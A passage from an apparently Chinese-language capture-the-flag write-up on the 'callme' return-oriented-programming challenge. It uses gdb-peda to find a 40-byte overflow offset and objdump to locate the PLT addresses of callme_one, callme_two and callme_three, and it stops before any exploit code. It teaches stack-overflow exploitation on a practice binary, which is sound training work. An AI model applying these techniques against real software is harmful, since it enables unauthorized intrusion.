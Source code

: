 然后计算距离溢出点的偏移：

```
gdb-peda$ x/gx $rsp
0x7fffffffde68:	0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
gdb-peda$ 
```

偏移为40

第二步，我们需要找到`callme_one,callme_two,callme_three`这三个函数的地址，因为这里是动态链接，那么我们只需要知道他们的.plt地址即可，关于got和.plt的概念请参考这篇文章：

[Linux中的GOT和PLT到底是个啥](http://www.freebuf.com/articles/system/135685.html)

这里我们使用Linux下的objdump来找：
​    

```
mask@mask-virtual-machine:~$ objdump -d callme | grep plt
  4017d0:	e8 bb 00 00 00   	callq  401890 <exit@plt+0x10>
Disassembly of section .plt:
00000000004017e0 <puts@plt-0x10>:
00000000004017f0 <puts@plt>:
0000000000401800 <printf@plt>:
0000000000401810 <callme_three@plt>:
0000000000401820 <memset@plt>:
0000000000401830 <__libc_start_main@plt>:
0000000000401840 <fgets@plt>:
0000000000401850 <callme_one@plt>:
0000000000401860 <setvbuf@plt>:
0000000000401870 <callme_two@plt>:
0000000000401880 <exit@plt>:
Disassembly of section .plt.got:
0000000000401890 <.plt.got>:
  4018c4:	e8 67 ff ff ff   	callq  401830 <__libc_start_main@plt>
  4019b3:	e8 a8 fe ff ff   	callq  401860 <setvbuf@plt>
  4019d1:	e8 8a fe ff ff   	callq  401860 <setvbuf@plt>
  4019db:	e8 10 fe ff ff   	callq  4017f0 <puts@plt>
  4019e5:	e8 06 fe ff ff   	callq  4017f0 <puts@plt>
  4019f9:	e8 f2 fd ff ff   	callq  4017f0 <puts@plt>
  401a1e:	e8 fd fd ff ff   	callq  401820 <memset@plt>
  401a28:	e8 c3 fd ff ff   	callq  4017f0 <puts@plt>
  401a37:	e8 c4 fd ff ff   	callq  401800 <printf@plt>
  401a4f:	e8 ec fd ff ff   	callq  401840 <fgets@plt>
  401a6a:	e8 a1 fd ff ff   	callq  401810 <callme_three@plt>
  401a7e:	e8 ed fd ff ff   	callq  401870 <callme_two@plt>
  401a92:	e8 b9 fd ff ff   	callq  401850 <callme_one@plt>
  401a9c:	e8 df fd ff ff   	callq  401880 <exit@plt>
mask@mask-virtual-machine:~$ 
```

那么这三个函数的地址我们知道了：
